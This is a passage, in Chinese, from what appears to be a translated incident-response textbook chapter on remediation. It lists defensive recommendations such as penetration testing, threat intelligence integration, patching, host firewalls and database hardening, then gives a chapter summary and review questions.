  *由一支富有才华的内部团队或知名咨询公司进行全面的渗透测试可以减少漏洞和配置错误带来的风险。应该定期对所有关键基础架构进行渗透测试，例如每年一次以及进行重大架构更改之后。整改团队认为这个建议很重要，因为它可以识别攻击者利用的漏洞，从而入侵网络。*

- 购买最新的情报并将其与SIEM和IDS设备集成，以实现准实时警报。

  *了解最新的安全威胁情报是组织有效利用其日志和监控基础设施的关键。整改团队认为这个建议对于组织的长期安全态势至关重要，因为攻击者使用的一个IP地址之前已经在先前的入侵中使用过。一个好的情报源可以在发现流向恶意IP地址的流量时，立即向组织发出警报。*

- 实施补丁程序，对终端用户系统上的常见目标第三方应用程序进行补丁。

  *这个建议旨在加强组织的整体安全态势，尽管它不能防止或减少此次事件中的入侵。整改团队认为这个建议值得实施，以防范针对终端用户的定向网络钓鱼攻击，这是一种常见的初始感染手段。*

- 在所有终端用户系统上实施主机防火墙，阻止终端用户系统之间的任何对等通信。

  *大多数终端用户系统不需要直接相互通信。大多数终端用户系统通过服务器与其他终端用户系统进行通信，如邮件、DNS和文件共享。整改团队认为这个建议很重要，因为它将阻碍攻击者在环境中移动和执行侦察工作。*

- 提高数据库和数据库连接的安全性。遵循NSA的安全配置指南进行指导。*组织的大部分关键数据存储在数据库中。应该在底层系统和数据库上实施增强安全措施。此外，受限金融环境中的数据库与DMZ中的数据库之间存在数据库连接。修复团队认为*

*这个建议很重要，因为它有助于将攻击者限制在他最初获得访问权限的环境中。*

**去网络上找吧**

[www.nsa.gov/ia/mitigation_guidance/security_configuration_guides](http://www.nsa.gov/ia/mitigation_guidance/security_configuration_guides)

修复行动中没有涉及修复工作组的非技术方面，即使业务运营、公共关系和法律的代表也是修复工作组的一部分。一般来说，修复计划只包括技术方面。如果公共关系需要采取行动，通常是对已经公开宣布的事情作出反应，预期将要公开宣布的事情作出反应，或者管理事件的公众视角。这些情况不适用于遏制、姿态、根除或战略计划。

### **那又怎样？**

本章的目的是扩展您在上一章学到的修复概念。我们希望向您展示这些概念在实际生活中如何应用。修复工作永远不会像上一章概述的八个步骤那样简单明了。总会有未知因素和操作要求需要应对。一个成功的修复工作是指将攻击者从环境中清除，减轻攻击者用于获得初始访问权限的初始漏洞，并增强组织的安全姿态。只要满足这三个目标，修复工作就可以被视为成功，即使没有实施“完美”的安全建议。

除了展示修复工作在事件中是如何组织起来的，我们还解释了为什么选择了某些建议。在执行修复工作时，技术技能和经验是无可替代的。我们希望您可以从本章所提供的一些经验教训中，在您自己的修复工作中受益。更为复杂的是，每个修复工作都是独特的，因此在一个环境中有效的方法可能在另一个环境中不起作用。

从本章中至少应该得出以下三点结论：首先，没有单一正确的执行修复工作的方法——每种情况都是独特的，将面临各自的挑战。其次，修复计划需要随时间演变，不应被视为不可改变的。修复团队需要能够对变化的情况和信息做出反应，因为许多事件涉及仍然活跃的攻击者，因此妥协的一些方面和已知信息可能会随着时间而变化。第三，修复工作的成功或失败取决于修复团队。这意味着修复团队负责确保所有行动及时完成并正确实施。

### **问题**

1. 列举至少三个策略性建议，您认为应该为案例研究1的受害组织提出。
2. 您认为在这个案例研究中实施立即遏制计划是正确的行动吗？为什么？
3. 消除事件的四个主要目标中的三个是什么？
4. 非技术成员是否应该对技术建议提供意见？
5. 为案例研究#2建立一个完整的修复计划。修复计划只需要列出高层次的行动，不需要详细说明每个活动的实施细节。提供并解释每个建议。